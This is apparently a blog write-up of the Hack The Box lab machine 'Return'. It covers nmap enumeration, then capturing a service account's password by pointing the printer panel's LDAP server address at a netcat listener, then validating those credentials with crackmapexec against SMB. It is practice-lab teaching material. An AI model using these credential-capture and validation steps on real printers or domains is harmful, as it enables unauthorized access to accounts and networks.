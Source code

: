 ```yaml
---
layout: writeup
category: HTB
date: 2024-12-29
comments: false
tags: 
---
```


<br />

![1](../../../assets/images/Return/1.png)

<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction:
<br />


 
<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.108 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-23 18:53 CET
Nmap scan report for 10.10.11.108
Host is up (0.041s latency).
Not shown: 65498 closed tcp ports (reset), 11 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-23 18:11:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 17m38s
| smb2-time: 
|   date: 2025-03-23T18:12:36
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.08 seconds
```

<br />

Open Ports:

It looks like we are dealing with a `Windows` host, since the open ports and services are `typical` of this operating system, such as:

- `Port 80` -> http

- `Port 88` -> Kerberos

- `Port 135` -> RPC 

- `Port 139` -> NetBIOS

- `Port 389` -> LDAP 

-  `Port 445` -> SMB 

- `Port 5985` -> WinRM

<br />

# Http Enumeration -> Port 80

<br />

We start enumerating the website:

<br />

![2](../../../assets/images/Return/2.png)

<br />

It looks like a `printer` Administration Pannel, let's check the `/settings.php` path:

<br />

![3](../../../assets/images/Return/3.png)

<br />

There is a interesting `functionality`. To test it, we replace the `"Server Address"` field with our own, start a listener on port `389` and click `"Update"` button:

<br />

![4](../../../assets/images/Return/4.png)

<br />

And when we check the `listener`, there is what appears to be a `password`:

<br />

```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.108] 54344
0*`%return\svc-printer�
                       1edFg43012!!
```

<br />

# SMB Enumeration: -> Port 445

<br />

`Crackmapexec` shows as that the domain name is `return.local` and another `SMB` information:

<br />

```bash
❯ crackmapexec smb 10.10.11.108
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
```

<br />

Now we are going to check if the our credentials are valid to the printer username -> svc-printer:

<br />

```bash
❯ crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

<br />

